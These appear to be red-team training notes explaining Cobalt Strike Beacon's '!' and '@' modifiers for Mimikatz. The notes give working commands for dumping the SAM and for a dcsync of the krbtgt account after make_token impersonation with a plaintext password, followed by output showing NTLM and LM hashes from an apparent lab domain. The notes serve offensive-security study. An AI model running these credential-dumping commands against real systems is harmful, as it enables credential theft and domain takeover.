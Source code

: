 Beacon also has its own command convention using the `!` and the `@` symbol as "modifiers".

#### What's the difference?

<mark style="color:yellow;">The</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`!`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">elevates Beacon to</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`SYSTEM`</mark> before running the given command which is <mark style="color:green;">useful for when you're running in high-integrity, but need to impersonate</mark> <mark style="color:green;"></mark><mark style="color:green;">`SYSTEM`</mark>.

* In most cases, `!` is a direct replacement for the `token::elevate`.

For example:

```
beacon> mimikatz !lsadump::sam
```

<mark style="color:yellow;">The</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`@`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">impersonates Beacon's thread token before running the given command</mark>, which is <mark style="color:green;">useful in cases where Mimikatz needs to interact with a remote session, such as</mark> <mark style="color:green;"></mark><mark style="color:green;">`dcsync`</mark>.

This is compatible with other impersonation primitives such as `make_token` and `steal_token`.

**For example:**

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> make_token DEV\nlamb F3rrari
[+] Impersonated DEV\nlamb (netonly)

beacon> mimikatz @lsadump::dcsync /user:DEV\krbtgt
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
[DC] 'DEV\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 8/15/2022 4:01:04 PM
Object Security ID   : S-1-5-21-569305411-121244042-2357301523-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 9fb924c244ad44e934c390dc17e02c3d
    ntlm- 0: 9fb924c244ad44e934c390dc17e02c3d
    lm  - 0: 207d5e08551c51892309c0cf652c353b
```
